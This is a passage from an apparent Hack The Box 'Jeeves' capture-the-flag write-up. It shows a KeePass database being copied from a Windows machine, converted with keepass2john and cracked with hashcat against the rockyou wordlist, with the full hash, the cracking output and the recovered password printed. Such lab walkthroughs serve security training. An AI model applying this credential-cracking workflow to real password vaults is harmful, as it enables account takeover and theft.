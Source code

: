```sh
PS C:\Users\kohsuke\documents> cd gee:
PS gee:\> cp C:\users\kohsuke\documents\CEH.kdbx .
PS gee:\>
```
### Password cracking

Using `keepass2john` I will convert it into a hash and crack it

```sh
─[george@parrot]─[~/HTB/jeeves/www]
└──╼ $ keepass2john CEH.kdbx
CEH:$keepass$*2*6000*0*1af405cc00f979ddb9bb387c4594fcea2fd01a6a0757c000e1873f3c71941d3d*3869fe357ff2d7db1555cc668d1d606b1dfaf02b9dba2621cbe9ecb63c7a4091*393c97beafd8a820db9142a6a94f03f6*b73766b61e656351c3aca0282f1617511031f0156089b6c5647de4671972fcff*cb409dbc0fa660fcffa4f1cc89f728b68254db431a21ec33298b612fe647db48
```
And it cracks, passwword is `moonshine1`

```sh
┌─[✗]─[george@parrot]─[~/HTB/jeeves/www]
└──╼ $ hashcat -m 13400 keepass.hash /usr/share/wordlists/rockyou.txt
hashcat (v6.1.1) starting...

=============snip===================
$keepass$*2*6000*0*1af405cc00f979ddb9bb387c4594fcea2fd01a6a0757c000e1873f3c71941d3d*3869fe357ff2d7db1555cc668d1d606b1dfaf02b9dba2621cbe9ecb63c7a4091*393c97beafd8a820db9142a6a94f03f6*b73766b61e656351c3aca0282f1617511031f0156089
b6c5647de4671972fcff*cb409dbc0fa660fcffa4f1cc89f728b68254db431a21ec33298b612fe647db48:moonshine1

Session..........: hashcat
Status...........: Cracked
Hash.Name........: KeePass 1 (AES/Twofish) and KeePass 2 (AES)
Hash.Target......: $keepass$*2*6000*0*1af405cc00f979ddb9bb387c4594fcea...47db48
Time.Started.....: Sun Oct  1 06:00:47 2023 (3 mins, 14 secs)
Time.Estimated...: Sun Oct  1 06:04:01 2023 (0 secs)
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:      286 H/s (16.31ms) @ Accel:256 Loops:32 Thr:1 Vec:16
Recovered........: 1/1 (100.00%) Digests
Progress.........: 55296/14344385 (0.39%)
Rejected.........: 0/55296 (0.00%)
Restore.Point....: 54272/14344385 (0.38%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:5984-6000
Candidates.#1....: 250895 -> grad2010

Started: Sun Oct  1 06:00:21 2023
Stopped: Sun Oct  1 06:04:04 2023

```

### Accessing KeePass database

